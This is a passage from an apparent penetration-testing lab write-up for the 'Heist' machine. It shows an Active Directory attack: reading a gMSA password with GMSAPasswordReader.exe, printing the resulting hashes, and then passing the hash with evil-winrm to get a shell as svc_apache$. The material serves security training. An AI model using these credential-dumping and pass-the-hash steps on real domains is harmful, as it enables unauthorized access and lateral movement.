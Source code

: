 ```powershell


*Evil-WinRM* PS C:\Users\enox\Desktop>
```
{: .nolineno}

Now I opened Bloodhound and checked the other privileges to move laterally.

![Image](Pasted%20image%2020240617001636.png)

I get <mark style="background: #D2B3FFA6;">ReadGMSAPassword</mark> Permissions on user svc_apache so lets abuse 
that using this Tool 🔻

You can download the executable exploit tool from here [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe) 

```powershell
*Evil-WinRM* PS C:\Users\enox\Desktop> .\GMSAPasswordReader.exe --AccountName 'svc_apache$'
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : A266E0F8D19F9CDB92AD8C658F86AFFA
[*]       aes128_cts_hmac_sha1 : 50B54BE046548576B96FFF5B97C8C733
[*]       aes256_cts_hmac_sha1 : 0BFA50E65DF92D77DC37018814AB1AB835FDF5EBE7AE3867FB49F387BB477322
[*]       des_cbc_md5          : 70D5527CA470D380

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 023145FC00CE8BAB62704EB63AB7BDAB
[*]       aes128_cts_hmac_sha1 : 49334D8F2312B4BEB67170A06E7844AF
[*]       aes256_cts_hmac_sha1 : 4D3F8EC980BB8539A0545D41CCAB3931235A563D9123D22ECBC67AE3F00F903E
[*]       des_cbc_md5          : 3B615E3DD06BB02F

*Evil-WinRM* PS C:\Users\enox\Desktop> 
```
{: .nolineno}

The `RC4` hashing is same as of `NTLM` hash so lets try to **Pass The Hash** and see which hash is working new one or old one 🔻

![Image](Pasted%20image%2020240617001910.png)

I got the right hash lets have a <mark style="background: #D2B3FFA6;">svc_apache$</mark> machine shell now 🔻

```powershell
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Heist]
└─$ evil-winrm -i 192.168.182.165 -u 'svc_apache$' -H 023145FC00CE8BAB62704EB63AB7..... 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami
heist\svc_apache$
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /all

```